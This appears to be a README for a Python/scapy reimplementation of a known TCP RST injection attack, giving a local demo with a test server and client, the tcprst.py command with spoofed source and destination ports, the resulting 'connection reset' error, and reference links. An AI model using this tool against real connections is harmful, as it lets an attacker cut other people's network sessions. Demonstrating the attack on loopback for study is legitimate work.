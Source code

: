 This repository contains a python/scapy implementation of the TCP RST injection showcased in the included c file. 

Howto:

$ indicates command to be executed
indicates output on the console


start the server

$ python server.py
TCP Server binding to port 5000

start the client

$ python client.py

record the port number the server reports (47413 in the running example)

I got a connection from 127.0.0.1:47413

start the injection

$ python tcprst.py -D 127.0.0.1 -d 5000 -S 127.0.0.1 -s 47413

wait until the server and the client exit with a message like:

Traceback (most recent call last):
  File "server.py", line 15, in <module>
    data = client_socket.recv(512)
socket.error: [Errno 104] Connection reset by peer

done!

More info on TCP/RST injection:
http://kerneltrap.org/node/3072
http://www.blackhatacademy.org/security101/TCP-RST_Injection

Source of the c file: 
http://packetstormsecurity.org/files/38708/tcprst.c.html